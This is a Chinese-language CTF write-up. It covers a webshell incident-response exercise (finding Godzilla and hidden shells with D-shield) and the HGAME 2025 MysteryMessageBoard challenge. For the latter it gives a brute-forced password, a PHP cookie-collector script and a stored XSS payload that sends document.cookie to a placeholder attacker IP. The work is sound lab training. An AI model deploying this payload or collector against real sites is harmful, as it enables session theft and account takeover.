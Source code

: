 #### 第一章 应急响应-webshell查杀

先把整个html文件夹全部下载下来。

根目录发现shell文件。修改时间为2023年，其余文件都为2021年，由此推断，23年的为黑客所操作。

用D盾扫面整个站，发现有如下木马。

![img](./image/0210-0216周报/QQ20250128-215140.png)

打开gz.php，发现shell里的flag。
![img](./image/0210-0216周报/QQ20250128-215557.png)

搜索一下马可以得到，是哥斯拉的shell，得到第二个flag。
![img](./image/0210-0216周报/QQ20250128-215901.png)

第三道题提到隐藏shell。

观察到D盾扫出来的.Db\.Mysqli.php，得第三题flag。

最后一道题，D盾中剩下最后一个马，提交，完成。

## HGAME 2025

#### Level 69 MysteryMessageBoard

本题是一个留言板代码，有五个路由。

/路由是留言板。

/login是登录，观察代码发现有两个账户，一个是shallot，另一个是admin。

/admin访问会使admin账户模拟看板。

/flag读取flag，但会验证cookie是否为admin用户。

爆破密码，shallot密码为888888，admin无法爆破出密码。

观察代码发现有xss漏洞，留言板无限制，且admin会模拟看板。

使用服务器搭建一个网站，用于记录admin的session，php代码：

```php
<?php
$content = $_GET[1];
if(isset($content)){
        file_put_contents('./flag.txt',$content);
}else{
        echo 'no input';
}
?>
```

xss：`<script>window.open("http://xxx.xxx.xxx.xxx:8888/?1="+document.cookie)</script>`

在留言板植入xss漏洞，然后访问/admin，admin用户会将自己的cookie发送给我服务器。

![img](./image/0210-0216周报/QQ20250217-024027.png)
然后将使用admin的cookie访问/flag得到flag.
![img](./image/0210-0216周报/QQ20250217-024125.png)
